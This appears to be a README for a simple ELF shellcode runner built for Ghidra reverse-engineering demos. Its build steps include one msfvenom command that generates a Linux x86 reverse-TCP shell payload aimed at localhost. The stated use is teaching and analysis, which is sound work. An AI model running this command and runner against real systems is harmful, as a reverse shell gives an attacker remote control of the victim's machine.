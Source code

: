 # Simple_ELF_Shellcode_Runner
Just a simple ELF shellcode runner to use for Ghidra demos.


## How to build
0. Generate a payload with ```msfvenom``` or shellcode generator of your choice.
```
msfvenom -p linux/x86/shell/reverse_tcp LPORT=4444 LHOST=127.0.0.1 -f c
```
1. Update the payload and sczsize variables.

2. Build the payload via ```make```
